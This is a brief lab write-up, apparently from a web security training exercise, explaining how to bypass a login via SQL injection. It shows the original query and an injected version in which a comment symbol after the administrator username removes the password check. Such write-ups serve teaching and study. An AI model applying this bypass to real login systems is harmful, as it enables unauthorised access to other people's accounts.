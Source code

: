 # Subverting application logic

Vadim Polovnikov | October 30, 2020
> Lab: **_SQL injection vulnerability allowing login bypass_**

The query used by the database:

```sql
SELECT username, password FROM users WHERE username = 'administrator' AND password = 'bla-bla-bla'
```

Do you know the admin's password? I don't! Let's do a little trick. 

**Modify the  database query with a comment symbol**

The malicious query:

```sql
SELECT username, password FROM users WHERE username = 'administrator'--
```

The rest of the query will not be evaluated as it was commented out.
